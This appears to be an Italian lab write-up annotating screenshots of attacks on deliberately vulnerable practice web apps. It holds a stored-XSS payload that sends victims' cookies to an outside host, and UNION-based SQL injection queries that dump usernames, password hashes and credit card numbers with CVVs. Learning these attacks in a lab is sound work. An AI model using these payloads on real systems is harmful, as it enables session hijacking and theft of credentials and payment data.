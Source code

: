 # Screen_1:
utilizzando questo script <script>window.location="http://192.168.50.100:12345/?cookie"+document.cookie</script> nell XSS stored possiamo ottenere il cookie dell utente
# Screen_2:
per utilizzare lo script bisogna prima modificare la lunghezza massima dei caratteri
# Screen_3:
utilizzando questa query %' and 1=0 union select null, table_name from information_schema.tables # in SQL Injection possiamo vedere tutte le tabelle presenti
# Screen_4:
utilizzando questa query %' and 1=0 union select table_name, column_name from information_schema.columns where table_name = 'users' # possiamo vedere tutte le colonne presenti nella tabella users
# Screen_5:
utilizzando questa query 1' union select user, password from users# possiamo vedere tutti gli username e password degli utenti solo che lo password sono sottoforma di hash
# Screen_6:
utilizzando john the ripper possiamo decifrare le password facilmente
# Screen_7:
ricollegandoci allo screen_3 possiamo notare che esiste una tabella chiamata credit_cards e utilizzando questa query %' union select ccnumber, expiration from owasp10.credit_cards# possiamo vedere tutti gli ccnumber e le date di scadenza delle carte
# Screen_8:
invece utilizzando questa query %' union select ccnumber, ccv from owasp10.credit_cards# possiamo vedere anche il CCV cosi da avere tutti i dati per le carte di credito
# Screen_9:
utilizzando questo script 1<script>alert(document.cookie)</script> in SQL Injection (blind) ci apre un pop up con il cookie cio significa che ce anche una vulnerabilità di tipo XSS
# Screen_10
utilizzando questa query 1 OR 1 = 1 UNION SELECT user, password FROM users si riesce a vedere gli username e password anche con il livello a medium
